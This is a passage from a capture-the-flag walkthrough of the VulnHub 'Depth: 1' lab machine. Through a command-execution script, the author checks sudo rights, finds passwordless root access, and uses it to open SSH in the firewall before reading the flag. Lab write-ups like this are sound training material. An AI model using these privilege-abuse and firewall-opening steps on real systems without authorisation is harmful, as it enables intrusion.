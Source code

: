 ### Kill Bill: Vol. 2

Let's give it a spin.

```
# ./cmd.sh "sudo -l"
Matching Defaults entries for bill on b2r:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bill may run the following commands on b2r:
    (ALL : ALL) NOPASSWD: ALL
```

As expected, let's abuse this privilege to enable SSH in the firewall and give myself a proper shell.

```
# ./cmd.sh "sudo ufw allow ssh"
Rule added
Rule added (v6)
```

From my attacking machine, I can now login as `bill` and `sudo` as `root`.

![screenshot-7](/assets/images/posts/depth-1-walkthrough/screenshot-7.png)

:dancer:

### Where Is the Flag?

![screenshot-8](/assets/images/posts/depth-1-walkthrough/screenshot-8.png)

Well, that wasn't difficult, was it?

[1]: https://www.vulnhub.com/entry/depth-1,213/
[2]: https://twitter.com/@fang0654
[3]: https://www.vulnhub.com
